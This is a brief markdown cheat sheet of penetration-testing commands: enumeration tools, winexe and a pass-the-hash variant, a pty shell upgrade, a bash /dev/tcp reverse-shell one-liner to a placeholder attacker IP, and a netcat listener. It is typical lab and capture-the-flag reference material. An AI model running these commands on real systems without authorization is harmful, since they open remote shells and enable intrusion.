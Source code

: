 ````markdown
## Useful Commands for Enumeration, Shells, and Exploitation

### Shell Access & Privilege Utilities

- `winexe` – To spawn a CMD shell  
- `pth-winexe` – To spawn a CMD shell by passing the NTLM hash  
- `(Ubuntu) getcap` – To check capabilities of binaries with elevated privileges  
- `ltrace` – Debugging tool to trace library calls  
- `whatweb` – To quickly get web application and server details  
- `dirb`, `gobuster` – Directory brute-forcing tools  
- `ffuf` – Fast web fuzzer for finding subdomains or directories  
- `grep -rni "String" *` – Recursively search for a string in a directory (case-insensitive)  
- `enum4linux` – SMB enumeration tool (sometimes very handy)  

### Shell Spawning

To spawn a stable interactive shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

To spawn a reverse shell from the victim machine:

```bash
bash -i >& /dev/tcp/<kali-ip>/<desired-port> 0>&1
```

To stabilize the shell after suspending with Ctrl+Z:

```bash
stty raw -echo; fg
```

To use arrow keys and tab completion with Netcat:

```bash
rlwrap nc -lvnp <port>
````

